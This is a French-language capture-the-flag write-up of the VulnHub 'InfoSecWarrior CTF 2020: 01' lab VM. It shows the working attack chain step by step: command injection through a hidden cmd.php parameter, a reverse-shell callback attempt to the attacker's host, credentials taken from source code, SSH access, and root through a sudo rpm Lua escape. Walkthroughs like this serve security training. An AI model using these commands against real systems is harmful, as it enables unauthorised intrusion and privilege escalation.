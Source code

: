 ```yaml
---
title: "Solution du CTF InfoSecWarrior CTF 2020: 01 de VulnHub"
tags: [VulnHub, CTF]
---
```


[InfoSecWarrior CTF 2020: 01](https://vulnhub.com/entry/infosecwarrior-ctf-2020-01,446/) fait partie de ces CTFs fait maladroitement dont on ne sait pas trop si certains éléments sont intentionnellement cassés ou si la VM est en carafe.

Ainsi sur la VM qui fait tourner un SSH et un serveur web on trouve via énumération un Wordpress mais ce dernier retourne une erreur 500.

```
301        9l       28w      320c http://192.168.56.152/wordpress
302        2l        0w        2c http://192.168.56.152/cmd.php
200        5l       18w      120c http://192.168.56.152/note.txt
200       17l       12w      292c http://192.168.56.152/sitemap.xml
```

L'énumération plus poussée remonte quelques fichiers dont un script `cmd.php` pour lequel je me suis mis à la recherche d'un paramètre valide :

```bash
ffuf -u "http://192.168.56.152/cmd.php" -d 'FUZZ=id' -H 'Content-Type: application/x-www-form-urlencoded' -w wordlists/common_query_parameter_names.txt  -fs 2
```

Sans succès...

Finalement en regardant le `sitemap` je relève la présence d'une typo pour le fichier d'index.

```xml
<urlset xmlns="http://infosecwarrior.com/sitemap/0.9">
<url>
<loc>http://infosecwarrior.com/index.htnl</loc>
<lastmod>2020-02-13</lastmod>
<changefreq>monthly</changefreq>
<priority>0.8</priority>
</url>
</urlset>
```

Le fichier existe bel et bien avec l'erreur et on y trouve un formulaire avec le paramètre qui nous manquait :

```html
<form action = "/cmd.php" hidden="True" method = "GET">
 command
     <input type = "text" name = "AI" value = "" maxlength = "100" />
 <br />
 <input type = "submit" value ="Submit" />
</form>
```

Le tout doit être soumis en POST contrairement à ce qu'indique le formulaire :

```console
$ curl -XPOST http://192.168.56.152/cmd.php --data "AI=id"
You Found ME : - (<pre>uid=48(apache) gid=48(apache) groups=48(apache) context=system_u:system_r:httpd_t:s0
```

On est sur un vieux système, qui plus est en 32bits :

```
Linux InfosecWarrior 2.6.32-754.el6.i686 #1 SMP Tue Jun 19 21:51:20 UTC 2018 i686 i686 i386 GNU/Linux
```

J'ai tenté d'obtenir un reverse shell avec `reverse-sshx86` mais le système bloque nos connexions. Sans doute un problème lié à SELinux puisque les binaires `curl` et `wget` du système n'ont pas ce type de restriction.

```console
$ curl -XPOST http://192.168.56.152/cmd.php --data "AI=wordpress/wp-content/reverse-sshx86 -v -p 80 192.168.56.1 2>%261"
You Found ME : - (<pre>2023/04/03 15:12:46 Dialling home via ssh to 192.168.56.1:80
2023/04/03 13:12:46 dial tcp 192.168.56.1:80: connect: permission denied
```

À première vue difficile d'avancer à ce stade. Mais en regardant le code source de `cmd.php` je trouve des identifiants :

```php
$user="isw0";
$pass="123456789blabla";
```

Ca matche avec un utilisateur du système :

```
isw0:x:500:500::/home/isw0:/bin/bash
isw1:x:501:501::/home/isw1:/home/isw1/bash
isw2:x:502:502::/home/isw2:/bin/bash
```

Vieux système dit aussi vieux protocoles :

```console
$ ssh isw0@192.168.56.152
Unable to negotiate with 192.168.56.152 port 22: no matching host key type found. Their offer: ssh-rsa,ssh-dss
```

Avec une option supplémentaire je parviens à me connecter au SSH :

```console
$ ssh -oHostKeyAlgorithms=+ssh-rsa isw0@192.168.56.152
The authenticity of host '192.168.56.152 (192.168.56.152)' can't be established.
RSA key fingerprint is SHA256:rNHlcfJ22Jb4j6wQvLvKK/+tc9khM8tM3yq9yDiz6dQ.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.56.152' (RSA) to the list of known hosts.
isw0@192.168.56.152's password: 
Last login: Mon Feb 17 13:56:07 2020 from 192.168.56.1
[isw0@InfosecWarrior ~]$ id
uid=500(isw0) gid=500(isw0) groupes=500(isw0) contexte=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
```

On a visiblement le droit d'exécuter `/bin/bash` en tant que n'importe quel utilisateur sauf `root` mais dans la pratique ça n'a pas marché pour une raison inconnue.

```console
[isw0@InfosecWarrior ~]$ sudo -l
Matching Defaults entries for isw0 on this host:
    !visiblepw, always_set_home, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE INPUTRC KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE
    LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User isw0 may run the following commands on this host:
    (!root) NOPASSWD: /bin/bash
    (root) /bin/ping, (root) /bin/ping6, (root) /bin/rpm, (root) /bin/ls, (root) /bin/mktemp
```

Peu importe, il y a un _GTFObin_ pour la commande RPM : https://gtfobins.github.io/gtfobins/rpm/#sudo

```console
[isw0@InfosecWarrior ~]$ sudo /bin/rpm --eval '%{lua:os.execute("/bin/sh")}'
sh-4.1# id
uid=0(root) gid=0(root) groupes=0(root) contexte=unconfined_u:system_r:rpm_script_t:s0-s0:c0.c1023
sh-4.1# cd /root
sh-4.1# ls
anaconda-ks.cfg  Armour.sh  flag.txt  install.log  install.log.syslog
sh-4.1# cat flag.txt
fc9c6eb6265921315e7c70aebd22af7e
```
